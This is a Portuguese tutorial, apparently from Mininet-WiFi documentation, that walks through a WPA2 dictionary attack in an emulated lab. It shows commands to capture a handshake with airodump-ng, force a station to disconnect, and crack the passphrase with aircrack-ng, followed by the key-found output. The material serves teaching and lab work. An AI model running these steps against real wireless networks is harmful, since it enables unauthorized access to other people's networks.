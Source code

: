 ************
Dictionary attack
************


.. Note::
  
  **Ao longo deste documento você irá aprender como realizar o ataque de dicionário:** 

  **Requisitos:** 
  
  - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
  - airodump-ng
  
  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Caso algum pacote estiver faltando, instale-os**
  

Primeiro, execute uma topologia simples que provê autenticação com WPA2 através do comando abaixo:

.. code:: console

    ~/mininet-wifi$ sudo python examples/authentication.py


A topologia de rede do código `authentication.py` consiste de duas estações conectadadas a um ponto de acesso. Para realizar este experimento, vamos inicialmente criar uma interface do tipo monitor chamada `mon0` a partir da estação `sta1`.

Para criar uma interface do tipo monitor execute o comando abaixo: 

.. code:: console

    mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor


Então, utilize o **airodump-ng** para capturar beacons na interface recém-criada:

.. code:: console

    mininet-wifi> sta1 ifconfig mon0 up
    mininet-wifi> sta1 airodump-ng mon0

 
Identifique o endereço MAC da estação na coluna station. 
**Dica**: Identifique o BSSID do AP ao qual a estação está conectada. O SSID pode servir de apoio.

Então, rode novamente o **airodump-ng** com os parâmetros abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    sta1-term# airodump-ng --bssid 02:00:00:00:02:00 mon0 -w minha-captura


Em seguida, force a desconexão de **sta1**.


.. code:: console
    
    mininet-wifi> sta1 iw dev sta1-wlan0 disconnet


Agora, crie um arquivo chamado `arquivo.psk` contendo o seguinte conteúdo:

.. code:: console

    123456789a
    abcdefgh
    0011223344


Em seguida, execute o comando abaixo:

.. code:: console

    mininet-wifi> sta1 aircrack-ng -w arquivo.psk -b 02:00:00:00:02:00 minha-captura-01.cap


E voi-lá! Senha descoberta!


.. code:: console

    Aircrack-ng 1.6 

          [00:00:00] 3/3 keys tested (63.70 k/s) 

          Time left: --

                              KEY FOUND! [ 123456789a ]


          Master Key     : E0 3D DC 8E 51 FB 0A 35 A6 EE 6D DF 9B 6B 69 EB 
                           E8 C0 7B D2 50 95 63 A7 26 43 DD B2 0F 46 E6 21 

          Transient Key  : 55 6C 6D AA 5D B2 DC E6 C3 FB 38 59 C8 B4 5D B3 
                           1E 3B AB 48 81 8E 94 AB 50 94 9E 25 61 8D D4 F0 
                           B9 1E 4F 3C 9C 84 48 3D 8B 09 86 1D 98 31 23 57 
                           4B 03 8F B4 86 8F 8D A4 59 CD 30 2D 71 D7 AF 18 

      EAPOL HMAC     : C1 3D 58 9D 02 CB 03 4A FC 3D 44 96 FF 2D 5D 79
